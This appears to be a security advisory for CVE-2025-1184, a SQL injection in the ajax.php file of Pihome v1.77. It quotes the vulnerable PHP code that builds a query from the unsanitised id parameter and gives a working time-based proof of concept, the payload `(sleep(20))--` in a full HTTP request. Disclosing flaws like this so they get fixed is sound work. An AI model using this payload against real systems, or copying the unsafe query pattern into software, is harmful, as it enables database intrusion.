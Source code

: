 # SQL Injection in Pihome v1.77 in ajax.php

### Title: SQL Injection in Pihome v1.77 in ajax.php
### Affected Component: /ajax.php
### CWE: CWE-89 (SQL Injection)
### CVE-2025-1184


### **Edits**

#### Update: 2025-02-06 16:25:00 (CET)
Edit reason: added steps to setup and exploit

### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/pihome/)


### Setup for getting the PoC to Work
Setup the project and then add a mqtt record. The prerequisite is that there is a record set up in the database. 

#### MySQL queries


```mysql
INSERT INTO `mqtt` 
SET 
   `name` = 'Main MQTT Server', 
   `ip` = '192.168.1.100', 
   `port` = 1883, 
   `topic` = 'home/sensors', 
   `username` = 'mqtt_user', 
   `password` = 'secure_password', 
   `enabled` = 1, 
   `type` = 1;
```



### Impact:
The web application is vulnerable to SQL Injection attacks within ajax modal functionality. Attackers can exploit this vulnerability by injecting malicious input into the "id" parameter,
which is used to edit values in the `mqtt` table. Make sure a record exists here.

The code below shows (ajax.php line 473) that the user input is put into the query without sanitation. This is a high risk vulnerability.

```php
function GetModal_MQTTAddEdit($conn)
{
	//foreach($_GET as $variable => $value) echo $variable . "&nbsp;=&nbsp;" . $value . "<br />\r\n";

    $IsAdd=true;
    if(isset($_GET['id'])) {
        $query = "SELECT * FROM `mqtt` WHERE `id`=" . $_GET['id'] . ";";
        $results = $conn->query($query);
        $row = mysqli_fetch_assoc($results);
        $IsAdd=false;
    }
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the SQL injection vulnerability, attackers craft a payload containing malicious input and inject it into the "id" parameter. For example, 
submitting the payload `(sleep(20))--` triggers 20 seconds delay in the request. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /ajax.php?Ajax=GetModal_MQTTEdit&id=(sleep(20))-- HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=087f1b0f23735d827df7afbc7ed3f8b1; PiHomeLanguage=en
Connection: keep-alive
```

### Proof with Screenshot:
![image](./assets/pihome-sqli-ajax.png)


## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)